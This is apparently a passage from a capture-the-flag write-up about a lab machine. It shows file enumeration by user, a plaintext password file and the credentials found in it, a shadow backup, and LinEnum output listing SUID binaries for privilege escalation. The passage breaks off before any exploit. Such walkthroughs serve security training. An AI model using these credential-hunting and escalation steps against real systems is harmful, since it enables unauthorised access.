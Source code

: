 pingu and papa are users

At this point we could just use a shell to get inside but I want to do it the other way

`find / -type f -user pingu`

```
/home/pingu/.cache/motd.legal-displayed /home/pingu/.ssh/id_rsa /home/pingu/.ssh/id_rsa.pub /home/pingu/.gdb_history /home/pingu/.pwntools-cache-2.7/update /home/pingu/.pwntools-cache-2.7/update
```

`find / -type f -user papa`

```
/home/papa/.bash_history /home/papa/.bash_logout /home/papa/.profile /home/papa/.bashrc /home/papa/.sudo_as_admin_successful /home/papa/.pwntools-cache-2.7/update /var/backups/shadow.bak /var/backups/shadow.bak
```

Ah..I may be doing this wrong

Assuming we have access to the file let's try this

`find / -user www-data`

Among a thousand files...the last ones are interresting

```
...
/var/hidden/pass /var/hidden/pass
```

`cat /var/hidden/pass`

```
pinguapingu pinguapingu
```

so..ssh creds are

`pingu : pinguapingu`

I am not a big fan of privesc scripts but hey..let's load that noisy linenum

`scp LinEnum.sh pingu@10.10.8.121:/tmp`

```
....

[-] SUID files:
-r-sr-xr-x 1 root papa 7516 Jan 16 2020 /opt/secret/root
-rwsr-xr-x 1 root root 136808 Jul 4 2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 10624 May 8 2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 40432 May 16 2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16 2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75304 May 16 2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 16 2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 49584 May 16 2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 428240 Mar 4 2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27 2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 42992 Jan 12 2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 44168 May 7 2014 /bin/ping
-rwsr-xr-x 1 root root 40128 May 16 2017 /bin/su
-rwsr-xr-x 1 root root 44680 May 7 2014 /bin/ping6
-rwsr-xr-x 1 root root 142032 Jan 28 2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16 2018 /bin/mount
-rwsr-xr-x 1 root root 30800 Jul 12 2016 /bin/fusermount
-rwsr-xr-x 1 root root 27608 May 16 2018 /bin/umount

....
```
